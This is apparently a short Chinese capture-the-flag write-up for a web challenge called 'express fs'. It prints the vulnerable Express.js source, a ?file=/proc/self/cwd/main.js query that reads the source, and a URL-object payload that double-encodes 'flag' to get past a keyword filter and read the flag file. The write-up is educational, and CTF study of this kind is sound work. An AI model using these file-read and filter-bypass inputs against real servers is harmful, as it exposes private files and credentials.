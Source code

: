 # 网信柏鹭杯  ‖ 放开那个签到

# web

#### <strong>express fs</strong><strong> </strong>

读源码

?file=/proc/self/cwd/main.js

```javascript
const express = require("express");
const fs = require("fs");

const app = express();

const PORT = process.env.PORT || 80;

app.use('/static', express.static('static'))

app.use((req, res, next) => {
  if (
    [req.body, req.headers, req.query].some(
      (item) => item && JSON.stringify(item).includes("flag")
    )
  ) {
    return res.send("臭黑客!");
  }
  next();
});

app.get("/", (req, res) => {
  try {
    res.setHeader("Content-Type", "text/html");
    res.send(fs.readFileSync(req.query.file || "index.html").toString());
  } catch (err) {
    console.log(err);
    res.status(500).send("Internal server error");
  }
});

app.listen(PORT, () => console.log(`express server listening on port ${PORT}`));
```

参考 [https://pankas.top/2022/06/04/corctf2022%E4%B8%80%E9%81%93%E6%9C%89%E6%84%8F%E6%80%9D%E7%9A%84node%E9%A2%98/](https://pankas.top/2022/06/04/corctf2022%E4%B8%80%E9%81%93%E6%9C%89%E6%84%8F%E6%80%9D%E7%9A%84node%E9%A2%98/)

```javascript
/?file[href]=a&file[origin]=1&file[protocol]=file:&file[hostname]=&file[pathname]=/proc/self/cwd/fl%2561g.txt
```
